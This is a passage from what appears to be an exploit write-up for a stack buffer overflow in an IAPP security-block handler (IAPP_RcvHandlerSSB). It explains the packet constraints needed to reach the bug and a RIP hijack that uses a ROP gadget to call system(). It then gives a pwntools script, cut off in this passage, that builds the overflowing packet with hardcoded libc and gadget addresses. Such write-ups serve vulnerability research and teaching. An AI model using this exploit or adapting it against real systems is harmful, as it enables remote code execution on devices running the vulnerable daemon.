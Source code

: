 The main payload section of the `RT_IAPP_SEND_SECURITY_BLOCK` is in the `SB[]` field; data is appended directly to the tail of this struct and the size of this payload is meant to be stored in the `Length` field of the struct. In order to pass other validation checks, the `Length` field of the `IappHeader` struct should be kept small; in my payloads I use a size of `0x60`. Finally, the `RT_IAPP_HEADER.Command` field must be set to `50` in order to reach the vulnerable handler `IAPP_RcvHandlerSSB`.

Other than these basic constraints/requirements, there aren’t any other issues to work around like avoiding null bytes or other restricted values.

[](#exploit-1-rip-hijack-via-corrupted-return-address-rop-to-system)exploit 1: RIP hijack via corrupted return address, ROP to system()
---------------------------------------------------------------------------------------------------------------------------------------

*   Build: non-forking, no optimizations
*   Mitigations: NX

We’ll first start with the simplest path to achieve code execution, assuming _no_ expoit mitigations are in place (except non-executable stack). This means addresses are predictable and no leak is necessary.

This exploit is a classic RIP hijack, using the stack overflow to corrupt the saved return address and redirect execution. This is about as straightforward as it gets: overflow the stack, align the overflow to corrupt the saved return address with the desired address to jump to, and wait for the function to return and use the corrupted value. What you jump to and how you leverage that to get more control is a blank canvas (for the most part). In the case of this exploit, we keep it simple by using the corruption to jump to a ROP gadget that will pop a pointer to a string containing a command to run into the correct registers, and then call `system()` to have the command executed. As ASLR isn’t enabled, we assume knowledge of the address of `system()` and a stack address close to where our payload data will be.

```
#!/usr/bin/env python3
from pwn import *

context.log_level = 'error'

TARGET_IP = "127.0.0.1"
TARGET_PORT = 3517
PAD_BYTE = b"\x22"

# this is addr on the stack close to where our paylaod data is
WRITEABLE_STACK = 0x7fffffff0d70

# Addresses
SYSTEM_ADDR     = 0x7ffff7c50d70
EXIT_ADDR       = 0x7ffff7c455f0
TARGET_RBP_ADDR = 0x5555555555555555  # doesn't matter
GADGET_2        = 0x42bf72  # pop rdi ; pop rbp ; ret

# NOTE: tweak `stack_offset` if env changes and exploit isn't finding command string; +/- 0x10-0x40
# should usually do it.
def create(stack_offset=0x1b0):
    # iapp header
    header = p8(0)      # version
    header += p8(50)    # command
    header += p16(0)    # ident
    header += p16(0x60) # length

    # SSB struct frame
    ssb_pkt = p8(55) * 8     # char buf[8], InitVec
    ssb_pkt += p16(0x150, endian='big')  # u16 Length

    # Main payload
    final_pkt = header + ssb_pkt
    final_pkt += PAD_BYTE * 176
```